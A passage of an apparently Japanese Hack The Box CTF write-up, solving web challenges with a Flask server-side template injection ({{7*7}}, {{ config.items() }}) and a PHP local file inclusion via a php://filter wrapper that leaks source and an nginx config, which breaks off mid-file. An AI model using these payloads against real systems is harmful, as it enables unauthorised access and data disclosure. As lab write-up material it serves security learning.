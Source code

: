 `HTB{sql_injecting_my_way_in}`

# BoneChewerCon
> ソースコードなし

レスポンスヘッダーから flaskであると推測できる。  
文字列を クエリパラメータとして受け、それがそのままレスポンスに埋まっていることから、  
SSTI を考え、`{{7*7}}` を送ったところ評価されて返ってきたため SSTI が可能。

`{{ config.items() }}`の中にフラグが含まれていた。

`HTB{r3s3rv4t1on_t0_h311_1s_a11_s3t!}`
# IMF - Landing
> ソースコードなし

トップページが `/?page=home.php` のような URLであることから、`page` の値のファイルを読み込みそれを表示していると考えられる。  
`php://filter/convert.base64-encode/resource=index.php` を送ると、
index.php が得られる。
```php
<?php
if ($_GET['page']) {
    include($_GET['page']);
} else {
    header("Location: /?page=home.php");
}
```

また レスポンスヘッダーから nginx が使われていることがわかるので nginx の config を取り出す。

```nginx
user www;
pid /run/nginx.pid;
error_log /dev/stderr info;

events {
    worker_connections 1024;
}

http {
    server_tokens off;
    log_format docker '$remote_addr $remote_user $status "$request" "$http_referer" "$http_user_agent" ';
    access_log /dev/stdout docker;
    access_log /var/log/nginx/access.log docker;

    charset utf-8;
    keepalive_timeout 20s;
    sendfile on;
    tcp_nopush on;
    client_max_body_size 1M;
    include  /etc/nginx/mime.types;

    server {
        listen 80;
        server_name _;

        index index.php;
        root /www;

        location / {
            try_files $uri $uri/ =404;
            location ~ \.php$ {
                try_files $uri =404;
                fastcgi_pass unix:/run/php-fpm.sock;
```